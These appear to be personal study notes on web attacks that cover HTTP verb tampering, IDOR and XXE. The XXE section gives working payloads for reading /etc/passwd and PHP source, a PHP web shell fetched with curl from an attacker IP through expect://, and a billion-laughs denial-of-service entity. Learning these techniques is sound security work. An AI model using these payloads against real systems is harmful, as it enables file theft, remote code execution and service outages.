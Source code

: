 # WEB ATTACKS
## HTTP Verb Tampering
- Bypassing Basic Authentication
  - Change the Method to bypass the authentication checks
- Bypassing Security Filters
  - Change the Method to bypass teh injection or special charater checks
 
## IDOR
- IDOR Information Disclosure vulnerability
- IDOR Insecure Function Calls

## XXE

| Key	| Definition	| Example |
| --- | --- | --- |
| Tag	| The keys of an XML document, usually wrapped with (</>) characters. |	`<date/>` |
| Entity |	XML variables, usually wrapped with (&/;) characters.	| `&lt;` |
| Element	| The root element or any of its child elements, and its value is stored in between a start-tag and an end-tag.	| `<date>01-01-2022</date>` |
| Attribute	| Optional specifications for any element that are stored in the tags, which may be used by the XML parser. |	`version="1.0"/encoding="UTF-8"` |
| Declaration |	Usually the first line of an XML document, and defines the XML version and encoding to use when parsing it.	| `<?xml version="1.0" encoding="UTF-8"?>` |

### XML DTD
- XML Document Type Definition (DTD) allows the validation of an XML document against a pre-defined document structure.
- The pre-defined document structure can be defined in the document itself or in an external file
- ```XXE
  <!DOCTYPE email [
  <!ELEMENT email (date, time, sender, recipients, body)>
  <!ELEMENT recipients (to, cc?)>
  <!ELEMENT cc (to*)>
  <!ELEMENT date (#PCDATA)>
  <!ELEMENT time (#PCDATA)>
  <!ELEMENT sender (#PCDATA)>
  <!ELEMENT to  (#PCDATA)>
  <!ELEMENT body (#PCDATA)>
  ]>
  ```
  - As we can see, the DTD is declaring the root email element with the ELEMENT type declaration and then denoting its child elements. After that, each of the child elements is also declared, where some of them also have child elements, while others may only contain raw data (as denoted by PCDATA).
 
- it can be stored in an external file (e.g. email.dtd), and then referenced within the XML document with the SYSTEM keyword
  ```
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE email SYSTEM "email.dtd">
  ```
- also possible to reference a DTD through a URL
  ```
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE email SYSTEM "http://inlanefreight.com/email.dtd">
  ```
### XML Entities
- define custom entities (i.e. XML variables) in XML DTDs, to allow refactoring of variables and reduce repetitive data. This can be done with the use of the ENTITY keyword
   ```
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE email [
    <!ENTITY company "Inlane Freight">
  ]>
  ```
- Reference External XML Entities with the SYSTEM keyword, which is followed by the external entity's path
   ```
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE email [
    <!ENTITY company SYSTEM "http://localhost/company.txt">
    <!ENTITY signature SYSTEM "file:///var/www/html/signature.txt">
  ]>
  ```
  - also use the PUBLIC keyword instead of SYSTEM for loading external resources, which is used with publicly declared entities and standards

- Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the Content-Type header to application/xml, and then convert the JSON data to XML with an [online tool](https://www.convertjson.com/json-to-xml.htm). If the web application does accept the request with XML data, then we may also test it against XXE vulnerabilities, which may reveal an unanticipated XXE vulnerability.
  ##### Reading Sensitive Files
  ```
  <!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
  ]>
  ```
  ##### Reading Source Code
  ```
  <!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
  ]>
  ```
  ##### Remote Code Execution with XXE
  ```
  $ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
  $ sudo python3 -m http.server 80
  ```
  ```
  <?xml version="1.0"?>
  <!DOCTYPE email [
    <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
  ]>
  <root>
  <name></name>
  <tel></tel>
  <email>&company;</email>
  <message></message>
  </root>
  ```
    - replaced all spaces in the above XML code with $IFS to avliid breaking
  ##### Billon laugh
  ```
  <?xml version="1.0"?>
  <!DOCTYPE email [
    <!ENTITY a0 "DOS" >
    <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
    <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
    <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
    <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
    <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
    <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
    <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
    <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
    <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
    <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
  ]>
  <root>
  <name></name>
  <tel></tel>
  <email>&a10;</email>
  <message></message>
  </root>
  ```
   - However, this attack no longer works with modern web servers (e.g., Apache), as they protect against entity self-reference
